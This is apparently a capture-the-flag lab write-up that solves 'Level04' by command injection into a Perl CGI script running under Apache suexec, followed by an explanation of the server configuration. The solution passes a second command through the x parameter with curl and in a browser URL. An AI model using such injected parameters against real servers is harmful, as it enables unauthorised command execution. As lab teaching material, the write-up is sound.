 # Level04 : find flag04

## Tutorial

### 1. Checking `$HOME`, `ls -l ~/level04.pl`

   - result : `-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 /home/user/level04/level04.pl`
   - `.pl` is a perl file
   - `cat ~/level04.pl`, see file in folder :
     - shebang : `#!/usr/bin/perl`
     - hint : `# localhost:4747` 
     - CGI + `sub x` function + `x(param("x"))`

### 2. Connect to `curl http://<IP>:4747/level04.pl\?x\=toto`

   - result : `toto`
   - Conclusion : there is a server running on port `4747` and the file `~/level04.pl` is a hint

### 3. Solution

   - with curl : `curl http://192.168.56.3:4747/level04.pl\?x\=toto+%3B+"getflag"`, toto is not necessary, 3B=";" on ascii
   - in browser : `http://192.168.56.3:4747/level04.pl?x="toto+%3B+$(getflag)"`, toto is not necesary
   - result : `toto ; Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap`
   - DONE !

## Additionnal explanations

### 1. Check server file and configuration

- launch `netstat -pnltu | grep 4747` => `tcp6    0    0    :::4747    :::*    LISTEN    -`
- launch `ps -aux | grep apache2` => multiple lines user `root` and `www-data`
```
root      1409  0.0  0.6  21340  6264 ?        Ss   Apr09   0:04 /usr/sbin/apache2 -k start
www-data  1452  0.0  0.4  21420  4420 ?        S    Apr09   0:00 /usr/sbin/apache2 -k start
...
```

### 2. server files : `cd /var/www/level04`, `ls -l /var/www/level04`

- result : `-r-xr-x---+ 1 flag04 level04 152 Apr  9 15:59 level04.pl`
- note : the `+` is for the acl, use `getfacl /var/www/level04` for more information

### 3. server configuration files : `cd /etc/apache2/`

- result : `ls -l /etc/apache2/sites-enabled/` => `lrwxrwxrwx 1 root root 31 Aug 30  2015 level05.conf -> ../sites-available/level05.conf`
- see what is in conf file : `cat /etc/apache2/sites-enabled/level05.conf` => see below
```
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```

### 4. Conclusion

- `SuexecUserGroup` is used to define the `user` and `group` launching the program
- we can see that the `DocumentRoot` is in `/var/www/level04/` with file name `level04.pl`
- We can see that the `user` is `flag04` which allows us to use `getflag` command
- getflag !

### 5. Notes

- the previous method which consist of creating `/tmp/echo` with correct permissions can't work here
- reason : `cat /etc/environment` set the `$PATH` variable for all users
- more explanation in `/level03/Resources/README.md`

## Additional resources

- apache server :
  - url : https://www.digitalocean.com/community/tutorials/how-to-configure-the-apache-web-server-on-an-ubuntu-or-debian-vps
- Module Apache mod_suexec : permet l'exécution des scripts CGI sous l'utilisateur et le groupe spécifiés
  - url : https://httpd.apache.org/docs/2.4/fr/mod/mod_suexec.html
  - Syntaxe : `SuexecUserGroup Utilisateur Groupe`
- Perl, setting locale :
  - url : https://www.thomas-krenn.com/en/wiki/Perl_warning_Setting_locale_failed_in_Debian
- Perl and CGI :
  - https://www.cs.ait.ac.th/~on/O/oreilly/perl/learn32/ch18_04.htm
  - http://devernay.free.fr/cours/internet/cgi/perlex.html
- Check services running on ports :
 - url : https://linoxide.com/linux-how-to/check-service-running-linux-port/
 - usage : `netstat -pnltu`
- ACL : Access Control List
  - url : https://lea-linux.org/documentations/ACL
- Find live hosts on my network :
  - url : https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network
